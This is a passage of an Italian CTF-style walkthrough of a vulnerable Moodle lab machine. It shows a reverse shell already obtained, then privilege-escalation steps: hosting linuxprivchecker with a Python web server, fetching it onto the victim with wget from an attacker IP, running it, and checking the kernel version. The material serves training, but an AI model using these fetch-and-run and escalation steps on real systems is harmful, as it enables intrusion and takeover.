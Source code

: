 otteniamo la reverse shell!
```
$ ls
changelog.txt
classes
config.php
css
editor_plugin.js
editor_plugin_src.js
img
includes
rpc.php
$ 
```


Ora che hai elencato abbastanza cose per ottenere un login amministrativo Moodle e ottenere una shell inversa, è il momento di priv esc.

Scarica [linuxprivchecker](https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123) per enumerare gli strumenti di sviluppo installati.

Per caricare il file sulla macchina, è necessario eseguire wget sulla macchina locale, poiché la macchina virtuale non sarà in grado di caricare file da internet. Seguire i passaggi per caricare un file sulla macchina virtuale:

- Scarica il file linuxprivchecker in locale
- Vai nella cartella contente il file scaricato sul tuo sistema
- Fai: 
```
python -m http.server 1337
```
ora andiamo sulla  macchina vittima e trasferiamo il file
```
wget <tuo IP>/<file>.py
```

```
wget http://10.14.99.134:1337/linuxprivchecker.py
```

```
python linuxprivchecker.py
```

Qual è la versione del kernel?
```
uname -a
```

```
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

```
3.13.0-32-generic
```
